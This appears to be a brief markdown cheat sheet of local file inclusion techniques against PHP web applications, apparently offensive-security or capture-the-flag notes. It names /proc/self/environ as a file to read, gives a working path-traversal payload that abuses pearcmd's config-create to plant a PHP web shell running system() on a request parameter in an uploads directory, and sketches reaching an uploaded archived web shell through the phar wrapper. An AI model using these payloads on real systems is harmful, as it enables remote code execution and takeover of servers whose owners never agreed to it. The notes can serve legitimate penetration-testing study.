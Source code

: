 # LFI

bypassing permissions to access files local to the victim machine

## Environment Variables

/proc/self/environ

## RCE

`?page=../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?system($_GET['cmd']);?>+/var/www/itrc/uploads/shell.php`

The above payload creates a webshell in the uploads folder that can be used to execute code

## Accessing compressed data 

php wrapper phar can access files uploaded to a compressed archive. if you can upload a compressed webshell and access the archive through lfi, you may be able to access the shell
